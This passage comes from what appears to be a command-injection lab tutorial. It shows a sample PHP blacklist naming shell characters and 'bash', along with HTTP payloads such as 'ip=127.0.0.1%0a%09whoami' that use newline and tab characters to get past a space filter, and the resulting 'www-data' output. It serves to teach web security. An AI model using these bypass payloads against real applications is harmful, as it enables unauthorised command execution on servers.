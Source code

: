 **Response:**
```html
Invalid input
```

**Isolated Space Test:**
```http
ip=127.0.0.1%0a%20
# Testing just the space character
```

**Result:** `Invalid input` - Confirms space character (`%20`) is blacklisted.

### Understanding Space Filter Logic

**Common PHP Implementation:**
```php
$blacklist = [';', '&', '|', ' ', '\t', 'sh', 'bash', ...];

foreach ($blacklist as $character) {
    if (strpos($_POST['ip'], $character) !== false) {
        echo "Invalid input";
        exit();
    }
}
```

**Why Spaces Are Filtered:**
- **Input validation** - Expected inputs (IP addresses) shouldn't contain spaces
- **Command prevention** - Spaces enable argument separation in commands
- **Security measure** - Reduces attack surface for command injection

---

## Space Bypass Techniques

### Method 1: Tab Characters

**Technique:** Replace spaces with tab characters (`\t` / `%09`)

**Why It Works:**
- Both Linux and Windows accept tabs between command arguments
- Commands execute identically with tabs as with spaces
- Tab character often not included in blacklists

**Implementation:**
```http
# Original (blocked): 127.0.0.1%0a%20whoami
# Tab bypass: 127.0.0.1%0a%09whoami
ip=127.0.0.1%0a%09whoami
```

**Expected Response:**
```html
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.074 ms
--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
www-data
```
